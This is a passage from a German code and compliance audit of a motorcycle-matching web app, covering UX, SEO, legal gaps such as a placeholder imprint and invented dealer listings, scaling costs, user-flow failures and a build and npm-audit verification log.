1. **Gastmodus online ist leer.** `community.js:706-714` verspricht „Als Gast ansehen — Lesen ja, Schreiben nur angemeldet". Tatsächlich ruft `loginGuest()` (`auth.js:397-402`) `initCommunityData(null, 'Gast')` auf, und `community-api.js:100-103` verzweigt bei `!uid` in `_loadFromLocalStorage()`. `seedDefaults()` (`community.js:354-355`) füllt nur im Offline-Modus. Online sieht der Gast also **eine leere Community** — nichts zu lesen, kein Hinweis warum.
2. **Kontolöschung endet in einer Fehlermeldung** und meldet den Nutzer trotzdem ab (`account.js:1930-1936`, siehe 3.5).

**Fix zu 1:** Gäste im Online-Modus die echten Gruppen laden lassen (RLS erlaubt `groups_select_public` ohnehin), oder das Versprechen ändern: „Zum Ansehen der Community anmelden." **Aufwand: S**

#### 14.4 Bestätigungen bei destruktiven Aktionen: überwiegend vorhanden — geringer Mangel

Nachgeprüft: Gruppe löschen (`community.js:4278`), Mitglied entfernen (`:4193`), sperren (`:4203`), Nachricht löschen (`:947`, `:4709`) laufen alle über `openConfirmModal`. Konto löschen und lokale Daten löschen nutzen `confirm()` (`account.js:1931, 1945, 1992`) — funktional, aber stilistisch inkonsistent mit dem Rest.

Ohne Bestätigung laufen: `leaveGroup`, `deleteChannel` (`community-api.js:1129`) und `deleteVoiceRoom`. Einen Kanal samt aller Nachrichten löscht man damit mit einem Klick.

**Fix:** `openConfirmModal` auch für Kanal löschen und Gruppe verlassen. **Aufwand: S**

#### 14.5 Positiv: die mobile Arbeit ist sorgfältig — kein Mangel

`viewport.js` misst die Bildschirmtastatur und legt sie als `--kb-inset` ab; `feedback.js:59-113` macht den Feedback-Knopf mit Pointer-Events verschiebbar und rastet ihn an der näheren Seite ein; `community.js:1875-1949` ersetzt `:hover` auf Touch durch einen Long-Press mit Bewegungstoleranz, damit Scrollen nie blockiert; `install.js` behandelt Chromium und WebKit getrennt und ehrlich. Die Kommentare erklären jeweils den konkreten Fehler, der dazu geführt hat. Das ist gute Arbeit und sollte nicht angefasst werden.

---

### 15 — SEO & Metadaten

#### 15.1 Weder `robots.txt` noch `sitemap.xml` — P2

**Belegt durch:** `ls public/robots.txt public/sitemap.xml` → beide „No such file or directory".

Ohne `robots.txt` gibt es keine Steuerung, ob `/impressum.html` und `/datenschutz.html` indiziert werden. Ohne `sitemap.xml` findet Google nur, was verlinkt ist — und verlinkt ist außer den beiden Rechtsseiten nichts.

**Fix:** Zwei kleine Dateien in `public/`. **Aufwand: S**

#### 15.2 Die gesamte App hat eine einzige URL — P2

**Fundstellen:** `src/js/nav.js:193-197`, `src/js/app.js:64-72`

```js
// nav.js:193-197 — dieselbe URL, absichtlich
// Gleiche URL: die Bildschirme haben keine eigenen Adressen …
window.history.pushState({ mmNav: index }, '', window.location.href)
```

Der Kommentar begründet es nachvollziehbar (ein erfundener Pfad ergäbe beim Neuladen einen 404). Die Konsequenzen sind trotzdem da:

- **Kein Bike ist verlinkbar** außer über `?bike=Iron+883` (`app.js:66`) — ein Query-Parameter, den Google als dieselbe Seite behandelt, wenn er nicht kanonisiert wird.
- **Ein Titel und eine Beschreibung für alles.** `index.html:6,8` gelten für Startseite, Quiz, jedes Bike, die Karte und die Community gleichermaßen.
- **Keine strukturierten Daten.** Für einen Motorradkatalog wäre `Product`/`ItemList`-Markup der naheliegende Weg zu Rich Results — es gibt keins.

**Fix:** Für die Beta reicht ein Canonical (siehe 15.3). Danach: `vercel.json` mit einem Rewrite `/bike/:name → /`, und `nav.js` schreibt echte Pfade statt `window.location.href`. Damit werden Bikes teilbar, indexierbar und pro Seite betitelbar. **Aufwand: M**

#### 15.3 `og:image` ist relativ und 2,25 MB groß, Canonical fehlt — P2

**Fundstellen:** `index.html:31`, `:37`, und das Fehlen eines `<link rel="canonical">`

```html
<meta property="og:image" content="/bikes/sportbikes_trio.jpg" />
```

Open Graph verlangt absolute URLs. Die meisten Scraper (WhatsApp, LinkedIn, Slack) lösen relative Pfade nicht auf — beim Teilen erscheint kein Bild. Zusätzlich ist `sportbikes_trio.jpg` **2,25 MB**; Facebook lehnt über 8 MB ab, aber die Vorschau lädt spürbar langsam.

Ebenfalls nicht gesetzt: `og:url`, `og:site_name`, `og:locale`.

**Fix:**
```html
<link rel="canonical" href="https://<deine-domain>/" />
<meta property="og:url" content="https://<deine-domain>/" />
<meta property="og:site_name" content="MotoMatch" />
<meta property="og:locale" content="de_DE" />
<meta property="og:image" content="https://<deine-domain>/og-cover.jpg" />
```
mit einem eigens erzeugten `og-cover.jpg` in 1200×630 und unter 300 kB. **Aufwand: S**

#### 15.4 Client-Rendering ohne Fallback-Inhalt — P2

`index.html:41-55` liefert fünf leere `<div>` und ein `<script type="module">`. Ohne JavaScript ist die Seite vollständig leer — kein `<noscript>`, keine Überschrift, kein Text. Googles Renderer führt JavaScript aus, aber verzögert und mit Budget; andere Crawler (Bing, soziale Netzwerke, KI-Crawler) meist nicht.

**Fix:** Ein `<noscript>` mit einem Absatz zum Angebot und Links auf Impressum und Datenschutz. Das ist keine SEO-Lösung, aber es macht die Seite ohne JS nicht leer. **Aufwand: S**

---

### 16 — Rechtliches (Deutschland/EU)

> Bestandsaufnahme des technisch Vorhandenen und Fehlenden. Keine Rechtsberatung — das hier ist die Liste für deinen Anwalt.

#### 16.1 Impressum ist eine unausgefüllte Vorlage — P0

**Fundstelle:** `public/impressum.html:177-227`

```html
<h2>Angaben gemäß § 5 TMG</h2>
<p>
  <span class="placeholder">[Name des Betreibers / der Gesellschaft]</span><br>
  <span class="placeholder">[Straße und Hausnummer]</span><br>
  <span class="placeholder">[PLZ Ort]</span><br>
  <span class="placeholder">[Land]</span>
</p>
…
E-Mail: <span class="placeholder">[kontakt@example.com]</span>
```

Alle sechs Abschnitte (Angaben, Kontakt, Vertretungsberechtigte, Registereintrag, USt-ID, Verantwortlich für den Inhalt) enthalten ausschließlich Platzhalter. Die einzige echte Kontaktangabe im Projekt steht im Footer der Startseite: `landing.js:479-480` verlinkt `mailto:salamhonar2020@gmail.com` — eine private Gmail-Adresse.

Zusätzlich für die Liste: die zitierten Normen sind veraltet. „§ 5 TMG" (`:178`) — das TMG wurde am 14.05.2024 durch das DDG abgelöst, die Pflicht steht nun in § 5 DDG. „§ 55 Abs. 2 RStV" (`:221`) — der Rundfunkstaatsvertrag wurde 2020 durch den Medienstaatsvertrag ersetzt, die Regelung ist § 18 Abs. 2 MStV.

**Fix:** Ausfüllen. Ohne dies kein öffentlicher Launch. **Aufwand: S** (deine Zeit, nicht Code)

#### 16.2 Datenschutzerklärung ist eine Vorlage mit sichtbaren Arbeitsanweisungen — P0

**Fundstelle:** `public/datenschutz.html`

Für jeden Besucher lesbar auf der Seite:
```html
<span class="placeholder">[Prüfen: Werden Nutzereingaben an OpenAI übermittelt?
  Falls ja, Hinweis und ggf. Einwilligung erforderlich.]</span>
<span class="placeholder">[Hinweis: Google Maps überträgt beim Laden die IP-Adresse
  des Nutzers an Google. Ggf. 2-Klick-Lösung oder Consent-Gate implementieren.]</span>
<h3><span class="placeholder">[Weiterer Dienst]</span></h3>
Stand: <span class="placeholder">[Datum eintragen, z. B. August 2026]</span>
```
Dazu „Verantwortliche Stelle" und die Kontaktadresse für Betroffenenrechte als Platzhalter.

**Und der Inhalt stimmt nicht mit dem Code überein.** Verglichen mit den tatsächlich kontaktierten Hosts:

| Aufgeführt | Im Code? |
|---|---|
| Open-Meteo | **Nein** — kein einziger Aufruf im gesamten `src/` |
| OpenAI „Chatfunktion" | Teilweise — es gibt keine Chatfunktion, nur einen Ein-Satz-Erklärer |
| Google Maps | Ja, korrekt beschrieben, mit funktionierender 2-Klick-Lösung |

| Im Code kontaktiert | Aufgeführt? |
|---|---|
| Sentry (`monitoring.js:60`) | **Nein** |
| LiveKit Cloud (`voice.js:157`) | **Nein** |
| KLIPY (`stickers.js:106`) | **Nein** |
| `gstatic.com` (`bike-detail.js:4501`, `garage.js:417`, `quiz.js:170`) | **Nein** |
| `fc-moto.com`, `cdn2.louis.de`, `m.media-amazon.com` (`gear.js`) | **Nein** |
| Apple ID JS (`auth.js:192`) | **Nein** |
| Push-Dienste (`sw.js`) | **Nein** |
| Supabase **Storage** für Chat-Anhänge (`schema.sql:240`) | Nein (nur „Datenbankabfragen") |

**Fix:** Vorlage ausfüllen und die Dienstliste aus dem Code ableiten, nicht aus der Vorlage. Die Tabelle in Abschnitt 4 dieses Reports ist die vollständige Liste. **Aufwand: M**

#### 16.3 Drittanbieter-Inhalte werden ohne Einwilligung geladen — P1

**Fundstellen:** `src/js/gear.js` (64 externe Bild-URLs), `src/js/bike-detail.js:4501`, `src/js/garage.js:417`, `src/js/quiz.js:170`

```js
// gear.js:32
image: "https://cdn2.louis.de/dynamic/articles/…/aa.8d.dd.ARG217335AGVK6SH1.JPG"
// bike-detail.js:4501
dracoLoader.setDecoderPath('https://www.gstatic.com/draco/versioned/decoders/1.5.7/')
```

Jedes `` mit einer fremden Herkunft überträgt beim Rendern IP-Adresse, User-Agent und Referrer an den fremden Server — hier an Louis (23×), fc-moto (34×), Amazon (7×) und Google (DRACO). Ohne Einwilligung und ohne Erwähnung.

Die Karte macht es vor: `garage.js:839-864` zeigt einen Platzhalter mit genau dem richtigen Hinweis und lädt Google Maps erst nach Klick. Der Mechanismus existiert also bereits im Projekt — er ist nur an drei anderen Stellen nicht angewendet.

Zwei weitere Punkte für die Anwaltsliste:
- **Bilder sind fremdgehostet verlinkt (Hotlinking).** Ob Louis, fc-moto und Amazon das gestatten, steht nicht fest. Technisch ist es zudem fragil: eine geänderte URL, und die Ausrüstungsseite hat Lücken. Beim Versuch, eine Louis-Produktseite abzurufen, kam **HTTP 403** — der Shop blockt automatisierte Zugriffe bereits, was für die Bild-URLs jederzeit ebenso gelten kann.
- **Amazon-Links tragen keinen Affiliate-Tag** (`gear.js:37, 79, 103, 107, 191, 219` — reine `/dp/`-Links). Der Commit `dbb1f38` heißt „gear affiliate links", verdient wird nichts. Wenn du das nachrüstest, kommt die Pflicht zur Kennzeichnung nach § 6 TMG/DDG und die Amazon-PartnerNet-Hinweispflicht dazu.

**Fix:** Produktbilder herunterladen, verkleinern und selbst ausliefern (löst Einwilligung, Hotlinking und Ladezeit in einem). DRACO-Decoder als npm-Paket (`three/examples/jsm/libs/draco/`) mitliefern statt von gstatic. **Aufwand: M**

#### 16.4 Erfundene Händler und Gebrauchtmarkt-Inserate werden als echt dargestellt — P0
*Weil Nutzer zu Betrieben fahren könnten, die es unter diesem Namen nicht gibt.*

**Fundstellen:** `src/js/dealers.js:1-303` (40 Einträge), `src/js/marketplace.js:13-274` (30 Inserate); angezeigt über `src/js/garage.js:1417-1440` und `:798-813`

```js
// dealers.js:3-10
{ id: 1, name: "Zweirad Hölscher", type: "Werkstatt", lat: 51.77, lng: 7.444, city: "Lüdinghausen" },
// dealers.js:68-74
{ id: 9, name: "Harley-Davidson Münster", type: "Händler", lat: 51.9385, lng: 7.609, city: "Münster" },
// marketplace.js:15-22
{ title: "Honda NR750 – Sammlerzustand", price: "22.500", year: 1994, km: "4.200",
  location: "München", age: "vor 2 Tagen" },
```

**Warum das ein Problem ist:** Beides sind aktive Rückfallebenen, keine Testdaten:
- `garage.js:1417` ruft `renderDealerFallbackList()`, wenn Google Maps nicht lädt — dann erscheinen die 40 erfundenen Betriebe als Ergebnisliste mit Entfernungsangabe.
- `garage.js:798-813` rendert die 30 erfundenen Inserate, sobald die Tavily-Suche nichts liefert — was in Produktion aktuell **immer** der Fall ist (Befund 9.1).

**Zwei Einträge habe ich nachrecherchiert** — beide bestätigen den schlimmeren der beiden möglichen Fälle:

- **„Zweirad Hölscher", Werkstatt, Lüdinghausen** (`dealers.js:3-10`). Den Betrieb gibt es — aber in **Ascheberg**, nicht Lüdinghausen, und es ist ein **Fahrrad- und E-Bike-Fachgeschäft**, keine Motorradwerkstatt. Ein realer Name, falscher Ort, falsche Branche, erfundene Koordinaten.
- **„Harley-Davidson Münster", Händler** (`dealers.js:68-74`). Einen offiziellen Harley-Davidson-Händler **in Münster gibt es nicht**; der zuständige Vertragshändler ist Harley-Davidson Münsterland in **Telgte**. In Münster selbst sitzt „The Harley Warehouse Co." — anderer Name, anderer Betrieb. Hier wird zusätzlich eine geschützte Marke für einen nicht existierenden Händler verwendet.

Es sind also nicht bloß „Platzhalterdaten": teils reale Betriebe mit falschen Angaben, teils Markennamen für Betriebe, die es nicht gibt — und beides an Koordinaten, zu denen jemand hinfahren könnte. Bei den Inseraten kommen konkrete Preise, Kilometerstände und „vor 2 Tagen" hinzu — Angaben, die eine Kaufentscheidung beeinflussen.

> Ich habe 2 von 40 Einträgen geprüft. Für die Entscheidung reicht das; eine vollständige Prüfung wäre nur nötig, wenn die Liste bleiben soll — und das ist nicht die Empfehlung.

**Empfohlener Fix:** Beide Rückfallebenen durch ehrliche Leerzustände ersetzen. Der Text steht praktisch schon da (`garage.js:1428-1433` für den Fall „keine Ergebnisse") — er muss nur auch für „Suche fehlgeschlagen" greifen:
```js
// statt der erfundenen Inserate
el.innerHTML = `<p class="gr-meta-text">Aktuell keine Angebote abrufbar.
  Direkt suchen bei <a href="${urls.kleinanzeigen}" target="_blank" rel="noopener">Kleinanzeigen</a>,
  <a href="${urls.mobile}" target="_blank" rel="noopener">mobile.de</a> oder
  <a href="${urls.ebay}" target="_blank" rel="noopener">eBay</a>.</p>`
```
Die Links dorthin gibt es bereits (`garage.js:777-781`). Danach `marketplace.js:13-274` und `dealers.js` löschen. **Aufwand: S**

#### 16.5 Auskunft und Löschung sind technisch nicht möglich — P0

- **Löschung (Art. 17):** nicht implementiert, siehe 3.5.
- **Auskunft (Art. 15):** es gibt keinen Weg, die Daten eines Nutzers aus Supabase zusammenzustellen. Der Export in `account.js:1968-1982` erfasst ausschließlich `localStorage` — also nicht Nachrichten, Gruppen, Freundschaften, Meldungen oder Feedback.
- **Berichtigung (Art. 16):** teilweise — Benutzername und Passwort ja, E-Mail nur zum Schein (`account.js:1915-1917` schreibt sie ausschließlich in `localStorage`, die Anmelde-E-Mail bleibt unverändert).

**Fix:** Der Endpunkt aus 3.5 kann beides. Für die Auskunft eine `SECURITY DEFINER`-Funktion, die alle Zeilen zu einer `user_id` als JSON zurückgibt. **Aufwand: M**

#### 16.6 Quiz-Antworten überleben „Alle lokalen Daten löschen" — P1

**Fundstellen:** `src/js/quiz.js:188`, `src/js/account.js:1952-1958`, `:1970-1973`

```js
// quiz.js:188 — der einzige Schlüssel ohne mm_-Präfix im gesamten Projekt
const LS_KEY = 'motoMatchAnswers';
// account.js:1955-1957 — löscht nur mm_*
const k = localStorage.key(i)
if (k?.startsWith('mm_')) keys.push(k)
```

Nachgeprüft über alle `localStorage`-Aufrufe in `src/js/`: `motoMatchAnswers` ist der einzige Schlüssel ohne den Präfix. Er enthält Führerscheinklasse, Fahrerfahrung, Budget, **Körpergröße** und die Angabe, ob mit Beifahrer gefahren wird. Er wird von „Alle lokalen Daten löschen" übersehen, vom Export nicht erfasst und vom Import nicht wiederhergestellt.

**Fix:** In `mm_quiz_answers_v1` umbenennen, mit einer einmaligen Übernahme des alten Schlüssels — das Muster dafür steht schon in `match-history.js:41-45` (`migrateFromPrimaryBike`). **Aufwand: S**

#### 16.7 Keine AGB, keine Community-Regeln, keine Altersprüfung — P2

Es gibt keine Nutzungsbedingungen und keine Verhaltensregeln, obwohl Nutzer öffentliche Inhalte erstellen (Gruppen, Nachrichten, Anhänge). Bei der Registrierung wird das Alter abgefragt (`auth.js:661`, `min="14"`), aber weder validiert noch gespeichert — `register()` (`:335`) nimmt `age` entgegen und schreibt es nur nach `localStorage`.

Für die DSGVO relevant: unter 16 Jahren ist bei Einwilligung die Zustimmung der Sorgeberechtigten nötig (Art. 8), und das Formular lässt ab 14 zu.

Der Chat-Anhang-Bucket ist zudem **öffentlich lesbar** (`schema.sql:240-249`, ausdrücklich und begründet kommentiert) — wer eine URL kennt, kommt an jede hochgeladene Datei. Das gehört in die Datenschutzerklärung.

Kein Bezahlweg im Code — AGB-Pflichten aus Fernabsatz entfallen damit vorerst.

**Fix:** AGB und Community-Regeln als dritte statische Seite, verlinkt im Footer, mit Bestätigungshäkchen bei der Registrierung. **Aufwand: M**

#### 16.8 Die Hälfte der Ausrüstungspreise widerspricht der eigenen Preisangabe — P1
*Weil neben jedem Preis ein Link in einen Shop steht, in dem etwas anderes steht.*

**Fundstelle:** `src/js/gear.js` — 114 Einträge, davon 64 mit konkretem `price`

Ausgezählt über die Datei (jeder Objekt-Block einzeln geparst):

```
Held Thermo Sturmhaube    Bereich  10-20 EUR  |  price:    4.95 EUR
Alpinestars Techstar      Bereich 200-350 EUR  |  price:   34.95 EUR
Held Carese Evo           Bereich 120-200 EUR  |  price:  559.99 EUR
Klim Badlands Pro         Bereich 400-650 EUR  |  price: 1015.00 EUR
TCX Comp Evo 2            Bereich 100-180 EUR  |  price:  399.99 EUR
… 27 weitere

114 Einträge gesamt, 64 davon mit konkretem `price`.
32 davon widersprechen ihrem eigenen priceMin/priceMax-Bereich.
```

**Warum das ein Problem ist:** Jeder zweite Preis widerspricht dem Bereich, der direkt daneben steht — das ist kein Rundungsfehler, das sind zwei Datensätze, die nie miteinander abgeglichen wurden. Bei „Alpinestars Techstar" (`:150`) steht ein 34,95-€-Jersey unter einem als „MX Race-Set, 200–350 €" beschriebenen Eintrag. Es gibt keinen Mechanismus, der die Preise aktualisiert; sie veralten ab dem Tag der Eintragung. Angezeigte Preise neben einem Kauflink sind in Deutschland kein rein kosmetisches Thema.

**Empfohlener Fix:** Das Feld `price` aus allen 64 Einträgen entfernen und nur `priceMin`–`priceMax` als Orientierung anzeigen, klar gekennzeichnet („ca. 150–250 €"). Ein Bereich altert langsam und verspricht nichts. Wer echte Preise will, braucht eine Preis-API — das ist ein eigenes Projekt, kein Beta-Thema. **Aufwand: S**

---

### 17 — Skalierung & Kosten

#### 17.1 Was zuerst bricht

| Nutzer | Was bricht | Fundstelle |
|---|---|---|
| **~50** | Nichts Technisches. Aber: 4.3 wird ausnutzbar, sobald die Adresse öffentlich ist — Bots finden neue Domains in Stunden, nicht Wochen | `api/_shared.js` |
| **100** | Der Community-Start wird spürbar zäh: alle Profile mit base64-Avataren plus alle DMs plus alle Nachrichten aller Kanäle. Bei 100 Nutzern mit 300-KB-Avataren sind das ~30 MB je Aufruf | `community-api.js:144, 197, 293` |
| **1.000** | Community praktisch unbenutzbar (~300 MB Startlast). Supabase-Traffic wird zum Kostentreiber. Fehlende Indizes machen sich bei `group_members`/`friendships` bemerkbar | `community-api.js:144`, `schema.sql` (nur 2 Indizes) |
| **10.000** | Vollständiger Zusammenbruch der Community. Zusätzlich: `push-trigger` läuft je Nachricht sequenziell durch alle Abos (`api/push-trigger.js:160-174`) und läuft in Vercels Zeitlimit; `_subscribeGlobalInbox` hält drei Realtime-Kanäle pro verbundenem Nutzer offen | `api/push-trigger.js:160`, `community-api.js:426-478` |

#### 17.2 Wo Kosten pro Nutzer entstehen — und ob es eine Grenze gibt

| Quelle | Kosten | Grenze im Code? |
|---|---|---|
| **OpenAI** (`api/ai-match.js`) | pro Quiz-Abschluss | ❌ `max_tokens: 60` begrenzt nur die Ausgabe; Eingabe unbegrenzt (4.4); Rate-Limit wirkungslos (4.3) |
| **Tavily** (`api/search-places.js`) | pro Marktplatz-Aufruf | ❌ dieselben zwei Löcher |
| **Supabase Traffic** | pro Community-Öffnung, wächst mit dem Gesamtbestand | ❌ kein `limit()` an vier Ladefunktionen (8.2) |
| **Supabase Storage** | 25 MB pro Anhang (`community-api.js:1149`) | 🟡 Größe je Datei ja, Gesamtmenge je Nutzer nein |
| **`profiles.avatar`** | base64 in einer DB-Spalte, jedem ausgeliefert | ❌ keine Größenbegrenzung (2.3) |
| **LiveKit** | Teilnehmerminuten, Screen-Share bei 1080p/30fps (`voice.js:241-245`) | ❌ keine Begrenzung von Räumen, Dauer oder Teilnehmern |
| **Web Push** | kostenlos | — |
| **Google Maps** | pro Kartenaufruf und Places-Anfrage | 🟡 durch die Einwilligung gebremst, sonst unbegrenzt |
| **KLIPY** | pro Tastendruck (350 ms entprellt, `community.js:1569`) | 🟡 aktuell inaktiv (kein Key) |

**Die drei Maßnahmen mit dem größten Effekt,** alle klein:
1. **Harte Ausgabenlimits** in den Dashboards von OpenAI, Tavily, LiveKit und Google Cloud. Das ist die einzige Grenze, die auch bei jedem hier beschriebenen Fehler noch greift — und sie kostet zehn Minuten.
2. **`select('*')` in `community-api.js:144` ersetzen**, ohne `avatar`. Nimmt den größten Teil der Traffic-Kosten weg.
3. **`ai-match` und `search-places` hinter eine Session hängen** (4.3, Punkt 2) — dann kostet Missbrauch mindestens ein Konto.

---

## 6. User-Flow-Analyse

### Ablauf A — Registrierung → Login → Community

**Beteiligte Dateien:** `community.js:720-741` → `auth.js:335-394` → Supabase Auth → `profiles` (INSERT) → `auth.js:77-98` → `community-api.js:96-124` (9 parallele Abfragen) → `community.js:600`

| Schritt | Was passiert | Was bei Fehlschlag passiert |
|---|---|---|
| 1 | Client prüft Passwortlänge (`auth.js:340`, **≥ 4**) | Deutsche Meldung ✓ |
| 2 | `profiles`-Abfrage `.ilike(username)` (`:346`) | `_`/`%` als Platzhalter → falsches „bereits vergeben" (3.8) |
| 3 | `supabase.auth.signUp()` (`:351`) | Bei < 6 Zeichen: **rohe englische Supabase-Meldung** (3.7) |
| 4 | `setSession()` (`:361`) — **nur wenn `data.session` existiert** | Bei aktivierter E-Mail-Bestätigung: übersprungen |
| 5 | `profiles.insert()` (`:364`) — **läuft immer** | Ohne Session: RLS blockt, roher Postgres-Fehler. **Konto existiert, Profil nicht** (3.6) |
| 6 | `_onSignedIn()` → `initCommunityData()` | `catch` in `:117-121` fällt still auf `localStorage` zurück — der Nutzer sieht eine leere Community und erfährt nicht, warum |
| 7 | 9 parallele `select`-Abfragen ohne Limit | Bei Datenmenge: Sekunden ohne jede Anzeige (6.3) |

**Das Loch:** Schritt 5. Bricht er ab, hat der Nutzer ein Auth-Konto ohne Profil. Beim nächsten Login greift `auth.js:81-88` und legt aus der E-Mail ein Profil an — mit einem **anderen** Benutzernamen als bei der Registrierung eingegeben. Es gibt keinen Weg zurück zum gewünschten Namen außer über die Einstellungen.

### Ablauf B — Quiz → Match → Bike öffnen

**Beteiligte Dateien:** `landing.js:490-502` → `quiz.js:initQuiz` → `quiz.js:191` (`localStorage`) → `matching.js:584-639` → `drop-animation.js` → `ai.js:35` → `/api/ai-match` → `garage.js:openBikeGarage` → `match-history.js`

| Schritt | Netz/Speicher | Bei Fehlschlag |
|---|---|---|
| 1 | `import('./quiz.js')` + three.js + Fahrermodell von Supabase Storage | Kein `catch` um den dynamischen Import in `:496` — bei Netzfehler bleibt die Startseite auf `opacity: 0` **unsichtbar stehen** |
| 2 | Antworten → `localStorage['motoMatchAnswers']` (`quiz.js:191`) | `catch (e) { /* ignore */ }` — Wiederaufnahme geht still verloren |
| 3 | `findTopMatches()` — rein lokal über 10 Bikes | Robust; `:605-620` behandelt „nichts passt zum Budget" sauber |
| 4 | `POST /api/ai-match` (`ai.js:35`) | Bei jedem Fehlschlag (403, OpenAI-Ausfall, Kontingent): `catch (_)` → „KI-Erklärung nicht verfügbar." Kein Hinweis, dass etwas kaputt ist, kein Eintrag im Monitoring |
| 5 | 3D-Modell (~1,5 MB) + DRACO von gstatic | Kein Rückfall im Fehlerfall auffindbar |

**Das Loch:** Schritt 1. `landing.js:494-501` setzt `opacity = 0` **vor** dem `await import()`. Schlägt der Import fehl, ist die Startseite unsichtbar und das Quiz nicht da — ein weißer Bildschirm ohne Ausweg außer Neuladen.

**Fix:**
```js
landing.style.opacity = "0"
let quizMod
try { quizMod = await import("./quiz.js") }
catch { landing.style.opacity = "1"; showToast('Quiz konnte nicht geladen werden.'); return }
```
**Aufwand: S**

### Ablauf C — Nachricht in einem Gruppenkanal senden

**Beteiligte Dateien:** `community.js:3647` (Gast-Prüfung) → `community-api.js:1211-1259` → ggf. `_prepareAttachment:1187` (Storage-Upload) → `messages` INSERT → Realtime → `_handleNewMessage:641` → `_appendMessageToGroupChat:865`; parallel Supabase-Webhook → `api/push-trigger.js`

| Schritt | Was bei Fehlschlag passiert |
|---|---|
| 1 Gast-Prüfung (`:3647`) | Sauberer Toast ✓ |
| 2 Anhang-Upload (`community-api.js:1201`) | Fehler wird **korrekt zurückgegeben** (`:1205`) ✓ |
| 3 `messages` INSERT (`:1236`) | Fehlt eine Spalte, greift ein Rückfall (`:1238-1250`) — mit dem ausdrücklichen und richtigen Entschluss, bei verlorenem Anhang **ehrlich zu scheitern** statt still zu verlieren (`:1247`) ✓ |
| 4 Optimistisches Einfügen (`:1254`) | ✓ |
| 5 Realtime-Echo → `_handleNewMessage` | Deduplizierung über `msg.id` ✓ |
| 6 Push über Webhook | **Stumm geschaltete Chats werden trotzdem benachrichtigt** (7.3) |

**Das ist der bestgebaute Ablauf im Projekt.** Fehlerbehandlung, Rückfallebenen und Deduplizierung stimmen. Er zeigt, dass das Muster aus 7.1 kein Können-, sondern ein Konsequenzproblem ist.

### Ablauf D — Auf eine fremde Nachricht reagieren

**Beteiligte Dateien:** `community.js:253-263` → `community-api.js:1278-1294` → `messages` UPDATE → RLS `msg_update` (`schema.sql:283`)

| Schritt | Was passiert |
|---|---|
| 1 | Emoji anklicken (`community.js:256`) |
| 2 | `msg.reactions[emoji] = [...users, myName]` — lokal sofort sichtbar (`:1290`) |
| 3 | `supabase.from('messages').update(…)` (`:1293`) |
| 4 | **RLS lässt 0 Zeilen zu** (nur Autor oder Mod) |
| 5 | Rückgabewert verworfen, kein `error`-Feld gesetzt |
| 6 | `renderMessagesInto()` zeichnet aus dem lokalen Cache — Reaktion ist da |
| 7 | **Nach dem Neuladen ist sie weg** |

Ein Ablauf, der immer scheitert und nie etwas sagt. Auf eigene Nachrichten funktioniert er, was die Fehlersuche zusätzlich erschwert. Siehe 7.2.

### Ablauf E — Einem Sprach-Talk beitreten

**Beteiligte Dateien:** `community.js:3449` (Gast-Gate) → `voice.js:50-189` → `POST /api/livekit-token` → `api/livekit-token.js` → Supabase RLS-Prüfung → LiveKit → Supabase Presence

| Schritt | Behandlung |
|---|---|
| 1 `OFFLINE_MODE` | Klare Meldung (`voice.js:53-55`) ✓ |
| 2 `VITE_LIVEKIT_URL` fehlt | „Sprachchat ist noch nicht konfiguriert." ✓ — in Produktion gesetzt, lokal je nach `.env` |
| 3 Keine Session | `code: 'auth'` mitgegeben, damit das UI gezielt eine Anmeldung anbieten kann (`:67`) ✓ |
| 4 Token-Abruf | Statuscode wird durchgereicht (`:79`) — der Kommentar erklärt genau, warum ✓ |
| 5 Serverseitige Prüfung | UUID-Muster, Teilnahme, Freundschaft (`api/livekit-token.js:78-96`) ✓ |
| 6 `room.connect` | Mikrofon-Verweigerung wird eigens erkannt (`voice.js:164-166`) ✓ |
| 7 Presence | Topic wird vorher freigegeben (`_releaseVoiceTopic:331`) — behebt einen echten, dokumentierten Fehler ✓ |

**Der sauberste Ablauf im Projekt.** Jeder Fehlerfall ist behandelt und unterscheidbar. Einziger Mangel: `ttl: "6h"` (`:113`) ist lang.

---

## 7. Verifikations-Log

Alle Befehle am 27.08.2026 im Projektverzeichnis ausgeführt. Ungekürzte Ausgaben.

### Umgebung
```
$ node -v && npm -v
v25.9.0
11.12.1
```
> Anmerkung: `.nvmrc` gibt `20` vor, lokal läuft **25.9.0**. Vercel baut nach `.nvmrc`/Projekteinstellung. Der Build lief hier trotzdem durch, aber lokal und in Produktion wird mit unterschiedlichen Node-Versionen gebaut. **NICHT VERIFIZIERBAR — Grund:** die Node-Version im Vercel-Projekt steht nicht im Repo.

### Build
```
$ npm run build
vite v5.4.21 building for production...
✓ 290 modules transformed.
[plugin:vite:reporter] (!) /…/src/js/matching.js is dynamically imported by /…/src/js/app.js
but also statically imported by /…/src/js/account.js, /…/src/js/bike-detail.js,
/…/src/js/drop-animation.js, /…/src/js/garage.js, /…/src/js/landing.js,
dynamic import will not move module into another chunk.

dist/index.html                                   3.04 kB │ gzip:   1.12 kB
dist/assets/community-bg-qP2h2HDe.jpeg          163.11 kB
dist/assets/index-Dms0V3w-.css                  275.77 kB │ gzip:  47.27 kB
dist/assets/util-Duf-_kLc.js                      0.52 kB │ gzip:   0.35 kB
dist/assets/quiz-DRE_qSPm.js                     22.45 kB │ gzip:   8.58 kB
dist/assets/garage-BKqDScmm.js                   35.72 kB │ gzip:  12.25 kB
dist/assets/index-qF-lnrsm.js                    75.60 kB │ gzip:  22.79 kB
dist/assets/account-CLpxMTTk.js                  76.12 kB │ gzip:  19.24 kB
dist/assets/bike-detail-Dr8AFyUC.js             168.65 kB │ gzip:  44.11 kB
dist/assets/meshopt_decoder.module-BljHbUWx.js  648.51 kB │ gzip: 161.95 kB
dist/assets/community-DQwyKLue.js               670.00 kB │ gzip: 170.23 kB

(!) Some chunks are larger than 500 kB after minification.
✓ built in 10.38s
[exited with code 0]
```
**Ergebnis: Build funktioniert.**

### Typecheck / Linter / Tests
```
$ cat package.json | grep -A4 '"scripts"'
"scripts": { "dev": "vite", "build": "vite build", "preview": "vite preview" }
```
**Kein Typecheck, kein Linter, kein Test-Runner konfiguriert.** Nichts auszuführen — kein TypeScript, keine `.eslintrc`, keine Testdatei im Repo.

### Sicherheits-Audit der Abhängigkeiten
```
$ npm audit
nanoid  <=3.3.17   Severity: high
postcss <=8.5.22   Severity: high
  Depends on vulnerable versions of esbuild (node_modules/vite)
23 vulnerabilities (20 moderate, 3 high)
```
Alle in `devDependencies` → Build-Zeit, **nicht im ausgelieferten Bundle**.

### Veraltete Pakete
```
$ npm outdated
Package                Current   Wanted   Latest
@sentry/browser         8.55.2   8.55.2  10.71.0    ← 2 Majors
